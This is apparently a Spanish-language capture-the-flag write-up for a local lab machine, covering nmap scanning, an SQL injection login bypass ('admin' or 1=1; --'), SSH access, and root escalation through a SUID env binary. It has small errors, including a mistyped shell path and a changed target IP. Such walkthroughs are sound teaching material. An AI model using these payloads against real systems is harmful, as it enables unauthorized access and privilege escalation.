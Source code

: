 # Reconocimiento

Una vez desplegada la máquina comprobamos que tenemos conectividad con ``ping -c1 172.17.0.2``

![image](https://github.com/user-attachments/assets/28ace12f-fb05-4a64-9861-e64a60a83609)

``-c1``> solo repite el ping 1 sola vez.

Una vez tenemos conectividad con la maquina Víctima, realizo un reconomiento con ``Nmap``

```bash
nmap -p- --open -sS -sV -sC -min-rate 5000 -n -Pn 172.17.0.2 -oN Puertos
```

<details>
	<summary><strong>Explicación del comando:</strong></summary>

### 1️⃣ `-p-` → Escaneo de **todos los puertos (1-65535)**
- Sin este flag, Nmap solo escanea los **1000 puertos más comunes**.
- Con `-p-`, Nmap escanea **los 65535 puertos**, lo que permite detectar más servicios.

---

### **2️⃣ `--open` → Solo muestra puertos abiertos**
- Filtra los resultados para que solo se muestren **puertos abiertos**, ocultando los que están cerrados o filtrados.

---

### 3️⃣ `-sS` → Escaneo **TCP SYN (Stealth Scan)**
- Es un escaneo **sigiloso** que **no establece conexiones completas** (envía solo paquetes SYN y analiza las respuestas).
- Ideal para **evadir detecciones** en firewalls o sistemas de detección de intrusos (**IDS**).

---

### **4️⃣ `-sV` → Detección de versiones de los servicios**
- Intenta identificar qué **servicio exacto** está corriendo en cada puerto abierto (ejemplo: `Apache 2.4.41` o `OpenSSH 8.2`).

---

### **5️⃣ `-sC` → Ejecución de scripts básicos**
- Activa los **Nmap Scripting Engine (NSE)** con los scripts predeterminados (`default`).
- Algunos scripts útiles que se ejecutan:
  - Detección de versiones (`version`).
  - Consulta de banners (`banner`).
  - Pruebas de seguridad básicas (`default`).

---

### **6️⃣ `--min-rate 5000` → Fuerza un escaneo más rápido**
- **Establece un mínimo de 5000 paquetes por segundo**, lo que hace que el escaneo sea más **rápido y agresivo**.
- Puede generar **detección en firewalls o IDS**, ya que envía muchas solicitudes en poco tiempo.

---

### **7️⃣ `-n` → No usa resolución de DNS**
- Evita que Nmap intente resolver nombres de dominio **para acelerar el escaneo**.

---

### **8️⃣ `-Pn` → Omite la detección de hosts**
- Nmap **no realiza un `ping` previo** para ver si la máquina está activa, simplemente **asume que está encendida** y procede con el escaneo.
- Útil si el host bloquea **ICMP (`ping`)** pero tiene puertos abiertos.

---

### **9️⃣ `172.17.0.2` → IP objetivo**
- Es la dirección de la máquina que se está escaneando.

---

### **🔟 `-oN Puertos` → Guarda los resultados en un archivo**
- `-oN` guarda la salida en un archivo en formato **legible (`Puertos`)** para su posterior análisis.

---
</details>

![image](https://github.com/user-attachments/assets/a263daea-40f8-473a-b321-673d5950cfe1)

Para ver los resultados de una forma mas clara realizo el siguiente comando: ``cat Puertos -l ruby``

![image](https://github.com/user-attachments/assets/d33f6daa-a253-400f-b5fc-6184c4b84204)

Como se muestra en el resultado obtenemos los puertos 22 y 80 como puertos abiertos y con sus versiones.

# Puerto 80 (HTTP)

Accedemos al servidor web ingresando la dirección IP en el navegador:

![image](https://github.com/user-attachments/assets/6b37498f-4d5c-4220-bbf2-14dcbc0b7e3e)

Obtenemos una pagina con un Login.

Procedo a realizar una Injeccion Sql añadiendo en el USER: ``admin' or 1=1; --``

![image](https://github.com/user-attachments/assets/ed7d6b55-021a-4c4e-a1c3-c5718cf1e2a1)

<details>
	<summary><strong>Explicación de SQL Injection:</strong></summary>

### **📌 Explicación paso a paso:**

1️⃣ **`admin'`** → Cierra prematuramente la cadena de texto esperada para el nombre de usuario.

2️⃣ **`or 1=1`** → Introduce una condición **siempre verdadera**, lo que hace que la autenticación sea exitosa sin importar la contraseña.

3️⃣ **`; --`** →
   - **`;`** Finaliza la consulta actual.
   - **`--`** Comenta el resto de la consulta SQL, ignorando cualquier validación de contraseña.

### **🔥 Ejemplo en una consulta SQL típica**

Una aplicación podría ejecutar una consulta similar a esta:

```sql
SELECT * FROM usuarios WHERE username = 'admin' AND password = 'password';
```

Si el atacante introduce:

```sql
admin' or 1=1; --
```

La consulta final se transforma en:

```sql
SELECT * FROM usuarios WHERE username = 'admin' OR 1=1; -- ' AND password = 'password';
```

Dado que **`1=1` siempre es verdadero**, la consulta devuelve todos los registros, permitiendo al atacante acceder **sin necesidad de conocer la contraseña**.
</details>

Tenemos un resultado positivo el cual nos devuelve lo siguiente:

![image](https://github.com/user-attachments/assets/8d31134b-d4f1-4d06-bec6-a4b09dd33a93)

Con este usurio y contraseña, realizamos una conexión SSH.

# Puerto 22 (SSH)

```bash
ssh dylan@172.17.0.3
```

![image](https://github.com/user-attachments/assets/90b5e236-9eef-449f-a4bc-1dc081305ea4)

# Escalada de privilegios.

Ejecutamos: ``sudo -l``

![image](https://github.com/user-attachments/assets/5a168e24-5763-48bf-98a1-35e4a56e7886)

El usuario Dylan no tiene ningun permiso para usar sudo.
En vista a que no tiene permisos, buscamos comandos con ``SUID`` habiliutado usando el siguiente comando:

```bash
find / -perm -4000 2>/dev/null
```
<details>
	<summary><strong>Explicación del comando: find / -perm -4000 2>/dev/null</strong></summary>

El comando `find / -perm -4000 2>/dev/null` se utiliza para **buscar archivos con el bit SUID activado** en todo el sistema de archivos.

### **📌 Explicación paso a paso:**

1️⃣ **`find /`** → Inicia la búsqueda desde la raíz (`/`), es decir, en todo el sistema de archivos.

2️⃣ **`-perm -4000`** → Busca archivos con el **bit SUID** activado (`4000`).
   - El bit **SUID (Set User ID)** permite que un archivo se ejecute con los privilegios de su propietario (generalmente `root`).
   - Esto significa que si un usuario ejecuta un archivo con SUID, este se ejecutará con los permisos del propietario en lugar de los del usuario.

3️⃣ **`2>/dev/null`** → Redirige los errores (`stderr`, descriptor `2`) a `/dev/null` para evitar mensajes de acceso denegado en directorios protegidos.
</details>

![image](https://github.com/user-attachments/assets/1cdd9053-3adb-46f7-a7ee-7996202c8feb)

Vemos que tenemos el binario /env con el bit SUID activado.
Este binario imprime o modifica variables de entorno.

Buscamos en la página web CTFOBins la posible escalada de privilegios con este binario:

![image](https://github.com/user-attachments/assets/d41ae851-e472-4dd7-9b16-940346aa2da8)

En la terminal, nos dirigimos al directorio ``/usr/bin``.
Dentro de el ejecutamos el siguiente comando que se nos muestra en la anterior imagen:

```bash
./env /ben/sh -p
```
![image](https://github.com/user-attachments/assets/b261fd23-9a1c-45f5-b765-ccf427b00e01)

Realizamos un ``whoami`` y vemos como hemos conseguido escalar privilegios y ser ``ROOT``

![image](https://github.com/user-attachments/assets/5d5a80e4-f1ee-4d06-be3c-01b491c95119)


